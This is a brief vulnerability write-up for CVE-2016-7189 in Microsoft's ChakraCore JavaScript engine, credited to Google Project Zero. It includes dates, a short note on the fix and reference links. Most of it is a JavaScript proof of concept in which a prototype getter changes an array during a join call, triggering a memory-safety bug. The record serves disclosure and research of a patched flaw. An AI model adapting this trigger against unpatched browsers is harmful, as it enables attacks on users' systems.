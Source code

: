 # CVE-2016-7189

- Report: Aug 2016
- Fix: Oct 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var t = new Array(1,2,3);
t.length = 100;
var o = {};
  Object.defineProperty(o, '3', {
    get: function() {

      t[0] = {};
      for(var i = 0; i < 100; i++){
          t[i] = {a : i};
      }
      return 7;
    }
  });

t.__proto__ = o;

var j = [];
var s = j.join.call(t);
```

## Notes

* the fix leaves the first accesses as `TemplatedGetItem` but there seems to be no way to trigger user code before it.

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-119)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=919)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/097edcd2e452e423b5f83b64b47f6bb7f5cd520d)
